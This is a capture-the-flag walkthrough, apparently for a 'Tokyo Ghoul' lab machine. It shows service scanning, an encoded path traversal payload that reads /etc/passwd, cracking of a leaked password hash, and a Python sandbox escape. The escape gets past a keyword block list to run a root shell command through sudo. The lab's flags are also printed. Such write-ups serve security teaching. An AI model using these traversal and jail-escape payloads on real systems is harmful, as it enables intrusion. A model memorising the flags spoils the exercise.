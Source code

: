 > Tokyo Ghoul

# rustscan

sudo rustscan -a $IP --ulimit=5000 --batch-size=4500 -- -sC -sV -Pn -A -O | tee rustscan.log


```
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Jan 23 22:26 need_Help?
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.107.21
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome To Tokyo goul
```

We can find a comment line in `http://tokyo.thm/jasonroom.html`. 

`<!-- look don't tell jason but we will help you escape , here is some clothes to look like us and a mask to look anonymous and go to the ftp room right there you will find a freind who will help you -->`

Looks like I have to login to FTP as anonymous user. I found some files.

```
need_Help?/Aogiri_tree.txt
need_Help?/Talk_with_me/
need_Help?/Talk_with_me/need_to_talk => And elf file
need_Help?/Talk_with_me/rize_and_kaneki.jpg
```

Using the hint I ran `rabin2 -z need_to_talk` and we got all strings. And at the start looks like a password.

```
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00002008 0x00002008 9   10   .rodata ascii kamishiro
```

On executing the binary we got another string.

```
./need_to_talk 
Hey Kaneki finnaly you want to talk 
Unfortunately before I can give you the kagune you need to give me the paraphrase
Do you have what I'm looking for?

kamishiro> 
Good job. I believe this is what you came for:
You_found_1t
```

Let's try to extract data from the .jpg file.

steghide extract -sf rize_and_kaneki.jpg

# yougotme.txt

```
haha you are so smart kaneki but can you talk my code 

..... .-
....- ....-
....- -....
--... ----.
....- -..
...-- ..---
....- -..
...-- ...--
....- -..
....- ---..
....- .-
...-- .....
..... ---..
...-- ..---
....- .
-.... -.-.
-.... ..---
-.... .
..... ..---
-.... -.-.
-.... ...--
-.... --...
...-- -..
...-- -..


if you can talk it allright you got my secret directory 
```

Decode from `morse code` -> `From Hex` -> `Base64`. And we got `d1r3c70ry_center`.

http://tokyo.thm/d1r3c70ry_center/ => Says scan mee!! Ok OK I will.

Running dirb we got somthing interesting.✨

```
+ http://tokyo.thm/d1r3c70ry_center/index.html (CODE:200|SIZE:312)
```

We are prompted with Yes/No. But when we click those options notng much prompts up. But there is an interesting thing about the link. `http://tokyo.thm/d1r3c70ry_center/claim/index.php?view=flower.gif`

But let's try for `/etc/passwd`. `http://tokyo.thm/d1r3c70ry_center/claim/index.php?view=../../../../etc/passwd`. Says `no no no silly don't do that`. Okkkk🙈. But after URL encoding it I got it to work.

## URL => `http://tokyo.thm/d1r3c70ry_center/claim/index.php?view=%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd`.

And we got something interesting 

`kamishiro:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:1001:1001:,,,:/home/kamishiro:/bin/bash `

Cracked it using john and got the password `password123`. Let's try SSH now!!

We are in as `kamishiro`.🎉🎉🎉

# user.txt

```
e6215e25c0783eb4279693d9f073594a
```

# Privilege Escalation

sudo -l

```
User kamishiro may run the following commands on vagrant.vm:
    (ALL) /usr/bin/python3 /home/kamishiro/jail.py
```

## jail.py

```
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

 The script won’t let us execute commands who read internal files , we should escape this to read the root flag using using Built-in functions:

```
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /root/root.txt')
```

And we got our root!!

# root.txt

```
9d790bb87898ca66f724ab05a9e6000b
```
